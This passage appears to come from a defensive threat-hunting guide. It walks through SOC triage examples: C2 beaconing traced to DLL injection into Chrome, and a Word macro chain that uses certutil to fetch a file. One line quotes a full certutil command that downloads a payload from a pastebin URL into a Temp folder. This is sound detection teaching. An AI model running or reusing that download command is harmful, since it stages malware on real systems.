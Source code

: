 **Phase 1**: Regular 60-second beacons from WS-075 to 45.123.67.89

**Phase 2**:

- Process: `chrome.exe` from correct location, correct parent, hash matches legitimate Chrome
- BUT: Single-destination beaconing, user reports slowness
- Decision: Continue to Phase 3 - behavior inconsistent with browsing

**Phase 3**:

- Sysmon Event ID 7: Suspicious DLL loaded from `C:\Users\john.doe\AppData\Local\Temp\`
- Conclusion: Process injection into legitimate Chrome

**Phase 4**: High confidence - legitimate Chrome compromised via DLL injection. Alert IR: Memory dump required, standard AV won't detect, system may need reimaging.

**Time**: 11 minutes

### Example 3: Living-off-the-Land Binary Abuse

**Phase 1**: HTTPS download from pastebin.com by system process

**Phase 2**:

- Process: `certutil.exe` from System32, hash matches legitimate
- Parent chain: WINWORD.EXE → powershell.exe → cmd.exe → certutil.exe
- Command: `certutil.exe -urlcache -split -f https://pastebin.com/raw/abc123 C:\Users\victim\AppData\Local\Temp\update.exe`
- Decision: Continue to Phase 3 - legitimate binary, suspicious context

**Phase 3**:

- Downloaded file hash: 38/70 VT detections
- Full process chain confirms document-based attack

**Phase 4**: High confidence malicious - LOLBin abuse via macro. Escalate.

**Time**: 9 minutes

---

This workflow ensures you catch both obvious malware and sophisticated techniques that abuse or compromise legitimate processes through systematic passive analysis of the five core indicators.